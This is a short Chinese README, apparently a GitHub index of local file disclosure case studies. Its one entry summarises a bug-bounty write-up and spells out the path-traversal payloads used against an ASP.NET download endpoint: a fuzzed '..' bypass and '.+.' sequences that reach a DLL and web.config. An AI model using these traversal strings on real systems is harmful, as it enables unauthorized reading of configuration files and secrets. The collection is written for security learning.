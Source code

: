 # LFD
本地文件读取(LFD)案例合集  
仅供参考
## :ledger: 索引及其简述
1. [**以 17,000 美元阅读 ASP 机密**](https://samcurry.net/reading-asp-secrets-for-17000/)  
发现任意文件读取https://domain.com/utility/download.aspx?f=file1234.docx  
读取download.aspx成功，使用fuzz绕过..的限制，GET /utility/download.aspx?  f=.[fuzz]./utility/download.aspx  
最后.+.替代..绕过，.+./.+./bin/redacted.dll读取，.+./.+./web.config证明危害  